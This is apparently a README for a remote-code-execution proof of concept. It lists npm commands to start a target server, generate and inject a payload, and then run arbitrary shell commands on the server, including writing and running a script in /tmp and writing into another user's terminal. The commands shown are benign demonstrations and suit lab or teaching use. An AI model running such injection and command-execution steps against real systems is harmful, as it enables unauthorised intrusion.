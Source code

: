 # Setup
```console
$ npm install
```

# Run
```console
server-terminal $ npm run server
```

# Inject
```console
attacker-terminal $ npm run generate_payload
attacker-terminal $ ./inject.sh
```

# Exploit
## Run Remote Code
```console
attacker-terminal $ ./execute_command.sh 'echo "echo asdf" > /tmp/scary_virus.sh'
attacker-terminal $ ./execute_command.sh '/tmp/scary_virus.sh'
```

## Prank
```console
attacker-terminal $ ./execute_command.sh 'echo hi >> /dev/pts/$(ls -t /dev/pts | head -n 1)'
```

